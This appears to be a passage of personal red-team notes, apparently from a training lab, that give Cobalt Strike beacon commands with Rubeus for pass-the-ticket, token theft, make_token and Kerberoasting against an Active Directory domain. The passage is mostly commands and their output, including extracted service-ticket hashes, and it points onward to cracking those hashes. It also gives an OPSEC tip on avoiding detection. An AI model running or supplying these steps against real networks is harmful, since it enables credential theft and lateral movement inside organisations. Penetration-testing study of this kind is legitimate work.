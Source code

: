 4. Use [[Pass-the-Ticket]] to pass the extracted TGT into the logon session via /luid
``````beacon
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe ptt /luid:0x92a8c /ticket:[...base64-ticket...]

[*] Action: Import Ticket
[*] Target LUID: 0x92a8c
[+] Ticket successfully imported!
``````
5. Steal the access token
``````beacon
steal_token 4872
[+] Impersonated NT AUTHORITY\SYSTEM

beacon> ls \\srv2\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 dir     05/10/2022 04:11:30   $Recycle.Bin
 dir     05/10/2022 03:23:44   Boot
 ``````

## Make_token / new logon session
```beacon
make_token EXT\i.wood abcdefg
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe ptt /ticket:awdawd
```

## [[Kerberoasting]]
⚠️ This will kerberoast ALL accounts with SPN's!
#OPSEC only do targeted kerberoast
``````beacon
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe kerberoast /simple /nowrap

[*] Action: Kerberoasting
[*] Searching the current domain for Kerberoastable users
[*] Total kerberoastable users : 2

$krb5tgs$23$*svc_mssql$edu.evil.corp$MSSQLSvc/srv1.edu.evil.corp:1433*$[...hash...]
$krb5tgs$23$*svc_honey$edu.evil.corp$HoneySvc/fake.edu.evil.corp*$[...hash...]
``````

## Targeted [[Kerberoasting]]
1. Identify users: [[ADSearch#Identify kerberoastable Users]]
2. Targeted [[Kerberoasting]]
``````beacon
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe kerberoast /user:svc_mssql /nowrap

[*] Action: Kerberoasting
[*] Target User            : svc_mssql
[*] Searching the current domain for Kerberoastable users
[*] Total kerberoastable users : 1
[*] SamAccountName         : svc_mssql
[*] DistinguishedName      : CN=MS SQL Service,CN=Users,DC=edu,DC=evil,DC=corp
[*] ServicePrincipalName   : MSSQLSvc/srv1.edu.evil.corp:1433
[*] PwdLastSet             : 5/14/2022 1:28:34 PM
[*] Supported ETypes       : RC4_HMAC_DEFAULT
[*] Hash                   : $krb5tgs$23$*svc_mssql$edu.evil.corp$MSSQLSvc/srv1.edu.evil.corp:1433*$[...hash...]
``````
3. Cracking with [[Hashcat#Cracking krb5tgs]]

